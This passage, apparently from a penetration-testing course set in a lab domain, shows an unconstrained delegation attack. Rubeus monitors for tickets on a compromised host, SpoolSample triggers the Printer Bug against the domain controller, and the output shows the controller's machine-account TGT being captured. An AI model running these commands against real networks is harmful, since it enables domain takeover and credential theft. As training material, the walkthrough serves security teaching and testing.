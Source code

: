Once we compromise a host configured to allow unconstrained delegation, we can attempt this attack against a Domain Controller by first starting `Rubeus` in monitor mode on the compromised host (SQL01 in our example).

#### Monitoring Tickets with Rubeus
```powershell-session
PS C:\Tools> .\Rubeus.exe monitor /interval:5 /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.5.0

[*] Action: TGT Monitoring
[*] Monitoring every 5 seconds for new TGTs
```

With `Rubeus` running in monitor mode, we then attempt to trigger the Printer Bug from the same host (SQL01) by running the `SpoolSample` tool in another console window. The syntax for this tool is `SpoolSample.exe <target server> <capture server>`, where the target server in our example lab is `DC01` and the capture server is `SQL01`.

#### Abusing the Printer Bug
```powershell-session
PS C:\Tools> .\SpoolSample.exe dc01.inlanefreight.local sql01.inlanefreight.local

[+] Converted DLL to shellcode
[+] Executing RDI
[+] Calling exported function
TargetServer: \\dc01.inlanefreight.local, CaptureServer: \\sql01.inlanefreight.local
Target server attempted authentication and got an access denied. If coercing authentication to an NTLM challenge-response capture tool(e.g. responder/inveigh/MSF SMB capture), this is expected and indicates the coerced authentication worked.
```

If everything works as expected, we will get the above confirmation message from the tool. Switching back to the console running `Rubeus` in monitor mode, we retrieved the TGT from the `DC01$` account, which is the Domain Controller machine account.

#### Monitoring Tickets with Rubeus
```powershell-session
PS C:\Tools> .\Rubeus.exe monitor /interval:5 /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.5.0

[*] Action: TGT Monitoring
[*] Monitoring every 5 seconds for new TGTs

[*] 8/14/2020 11:49:26 AM UTC - Found new TGT:

  User                  :  DC01$@INLANEFREIGHT.LOCAL
  StartTime             :  8/14/2020 4:22:44 AM
  EndTime               :  8/14/2020 2:22:44 PM
  RenewTill             :  8/20/2020 6:52:29 PM
  Flags                 :  name_canonicalize, pre_authent, renewable, forwarded, forwardable
```
